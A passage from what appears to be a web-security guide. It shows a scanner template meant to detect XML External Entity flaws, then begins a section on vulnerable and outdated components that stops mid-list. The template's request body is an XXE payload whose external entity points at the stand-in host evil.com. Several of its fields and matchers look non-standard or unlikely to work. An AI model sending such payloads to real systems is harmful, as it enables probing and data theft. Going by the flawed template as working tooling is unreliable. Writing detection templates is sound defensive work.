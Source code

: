 
```
id: restriction-of-xxe-reference
info:
  name: Restriction of XML External Entity Reference
  author: Your Name
  severity: medium
  description: Detects instances where XML parsing allows external entity references, potentially leading to XXE vulnerabilities.
  references:
    - https://example.com
tags:
  - web
  - restriction-of-xxe-reference
requests:
  - name: Restriction of XXE Reference Test
    path:
      - /
      - /admin
      - /api
    matchers:
      - type: status
        status:
          - 200
    attacks:
      - type: dynamic-attack
        requests:
          - method: POST
            path: /api/parse-xml
            headers:
              - name: Content-Type
                value: application/xml
            body: |
              <?xml version="1.0" encoding="UTF-8"?>
              <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://evil.com/xxe">]>
              <root>&xxe;</root>
            matchers:
              - type: word
                words:
                  - "XXE detected"
```


### Vulnerable and Outdated Components

Vulnerable and outdated components refer to third-party libraries, frameworks, or software components that have known security vulnerabilities or are no longer supported with security patches. Using such components can introduce security risks into your application or system, as attackers can exploit these vulnerabilities to gain unauthorized access or compromise your system.

To prevent the use of vulnerable and outdated components, you should follow these preventive measures:
